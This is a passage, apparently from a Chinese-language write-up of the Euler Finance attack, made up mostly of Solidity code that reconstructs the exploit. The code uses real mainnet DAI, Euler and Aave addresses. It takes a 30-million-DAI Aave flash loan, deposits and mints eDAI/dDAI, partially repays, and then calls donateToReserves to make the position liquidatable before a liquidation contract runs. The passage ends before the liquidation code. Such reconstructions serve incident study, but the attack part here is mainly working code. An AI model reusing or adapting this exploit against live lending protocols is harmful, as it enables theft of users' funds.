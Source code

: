 1.通过Aave的闪电贷借入3000万DAI。这可以通过使用以下合约来完成，其中 excuteHack 用于请求闪电贷，excuteOperation 由 Aave 的闪电贷合约调用。

```js
contract Main {  
    DAI dai=DAI(0x6B175474E89094C44Da98b954EedeAC495271d0F);  //DAI合约  
    Euler euler=Euler(0x27182842E098f60e3D576794A5bFFb0777E025d3);  //Euler合约  
    AAVE aave=AAVE(0x7d2768dE32b0b80b7a3454c06BdAc94A69DDc7A9); //AAVE合约  
    address owner;   
    address\[\] tokens;  
    uint256\[\] nums1;  
    uint256\[\] nums2;  
    function excuteHack() public{  
        tokens.push(address(dai));  
        nums1.push(30000000000000000000000000);  
        nums2.push(0);  
        aave.flashLoan(address(this),tokens,nums1,nums2,address(this),hex"",0);  
    }  
    constructor(){  
      owner =msg.sender;  
    }  
    function executeOperation(  
        address\[\] calldata assets,  
        uint256\[\] calldata amounts,  
        uint256\[\] calldata premiums,  
        address initiator,  
        bytes calldata params  
    ) external returns (bool){  
        dai.approve(address(aave),type(uint256).max);  
        return true;  
    }
```

2.部署了一个智能合约，并向其转移了 2000 万个 DAI。在 executeOperation 函数中添加此操作

```js
function executeOperation(  
    address\[\] calldata assets,  
    uint256\[\] calldata amounts,  
    uint256\[\] calldata premiums,  
    address initiator,  
    bytes calldata params  
) external returns (bool){  
    LendContract lendcontract=new LendContract(address(this));  
    dai.approve(address(aave),type(uint256).max);  
    dai.transfer(address(lendcontract),nums1\[0\]);  
    lendcontract.exp();  
    return true;  
}
```

3.使用智能合约存入 2000 万 DAI，铸造 1.95 亿 eDAI / 2 亿 dDAI。借款人在偿还1000万DAI后，铸造了1.95亿eDAI/2亿dDAI，并捐赠了1亿eDAI，使头寸可变现并改变了兑换率，还在功能中加入了变现智能合约部署脚本。

```js
function exp() public{  
    liquidationContract liquidation\_C=new liquidationContract(address(this),mainContractAddress);  
      dai.balanceOf(address(this));  
    dai.approve(address(euler),type(uint256).max);  
    edai.deposit(0,20000000000000000000000000);  
    edai.mint(0,200000000000000000000000000);  
    ddai.repay(0,10000000000000000000000000);  
    edai.mint(0,200000000000000000000000000);  
    edai.donateToReserves(0,100000000000000000000000000);  
    liquidation\_C.exp();  
}
```